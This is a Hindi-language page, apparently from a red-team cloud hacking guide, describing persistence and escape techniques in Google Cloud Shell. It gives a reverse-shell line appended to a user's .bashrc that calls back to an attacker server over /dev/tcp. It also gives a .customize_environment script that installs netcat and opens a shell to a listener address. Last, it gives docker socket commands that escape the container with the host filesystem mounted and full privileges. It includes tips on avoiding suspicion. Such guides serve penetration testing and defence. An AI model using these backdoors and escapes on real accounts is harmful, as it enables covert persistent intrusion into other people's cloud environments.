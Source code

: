 # GCP - Non-svc Persistance

<details><summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary></details>

ये तकनीकें उपयोगी हैं एक बार, किसी तरह, आपने GCP क्रेडेंशियल्स या GCP वातावरण में चल रही किसी मशीन को समझौता किया है।

## Google’s Cloud Shell <a href="#e5eb" id="e5eb"></a>

### स्थायी बैकडोर

[**Google Cloud Shell**](https://cloud.google.com/shell/) आपको आपके ब्राउज़र से सीधे आपके क्लाउड संसाधनों तक कमांड-लाइन एक्सेस प्रदान करता है बिना किसी संबद्ध लागत के।

आप **वेब कंसोल** से या **`gcloud cloud-shell ssh`** चलाकर Google's Cloud Shell तक पहुँच सकते हैं।

इस कंसोल में हमलावरों के लिए कुछ दिलचस्प क्षमताएं हैं:

1. **Google Cloud तक पहुँच वाले किसी भी Google उपयोगकर्ता** के पास पूरी तरह से प्रमाणित Cloud Shell इंस्टेंस तक पहुँच होती है।
2. उक्त इंस्टेंस अगर कोई गतिविधि नहीं होती है तो कम से कम 120 दिनों के लिए अपनी होम डायरेक्टरी को बनाए रखेगा।
3. उस इंस्टेंस की गतिविधि की निगरानी करने के लिए संगठन की **कोई क्षमता नहीं है**।

इसका मूल रूप से यह मतलब है कि एक हमलावर उपयोगकर्ता की होम डायरेक्टरी में एक बैकडोर डाल सकता है और जब तक उपयोगकर्ता हर 120 दिनों में कम से कम GC Shell से जुड़ता है, बैकडोर जीवित रहेगा और हमलावर को एक शेल मिलेगा हर बार जब यह चलाया जाता है बस यह करके:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
एक और फ़ाइल होम फ़ोल्डर में है जिसका नाम **`.customize_environment`** है, जो अगर मौजूद है, तो वह **हर बार निष्पादित की जाएगी** जब भी उपयोगकर्ता **cloud shell** तक पहुँचता है (पिछली तकनीक की तरह)। जब तक उपयोगकर्ता "अक्सर" cloud shell का उपयोग करता है, पर्सिस्टेंस बनाए रखने के लिए पिछले बैकडोर या निम्नलिखित जैसे एक को डालें:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
ध्यान दें कि **Cloud Shell में पहली बार कोई क्रिया की जाती है जिसके लिए प्रमाणीकरण की आवश्यकता होती है**, तो यह उपयोगकर्ता के ब्राउज़र में एक प्राधिकरण विंडो **पॉप अप** करता है जिसे कमांड चलाने से पहले स्वीकार करना अनिवार्य होता है। यदि अप्रत्याशित पॉप-अप आता है, तो लक्ष्य संदिग्ध हो सकता है और स्थायित्व विधि को नष्ट कर सकता है।
{% endhint %}

### Google Cloud Shell Container Escape

ध्यान दें कि Google Cloud Shell एक कंटेनर के अंदर चलता है, आप **मेजबान पर आसानी से भाग सकते हैं** इस प्रकार करके:
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
यह Google द्वारा एक सुरक्षा दोष के रूप में नहीं माना जाता है, लेकिन यह आपको उस पर्यावरण में क्या हो रहा है इसकी व्यापक दृष्टि प्रदान करता है।
